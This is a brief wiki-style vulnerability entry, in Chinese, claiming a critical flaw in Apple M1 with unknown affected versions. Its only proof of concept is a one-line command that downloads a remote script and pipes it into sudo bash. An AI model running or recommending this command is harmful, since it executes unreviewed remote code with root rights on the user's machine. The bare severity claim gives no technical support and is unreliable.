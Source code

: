 <languages />

漏洞简介
--------

<div lang="chinese" dir="ltr" class="mw-content-ltr">
在 Apple M1 中發現了一個被歸類為嚴重的漏洞（受影響的版本未知）。

</div>
POC
---

    curl https://holeybeep.ninja/am_i_vulnerable.sh | sudo bash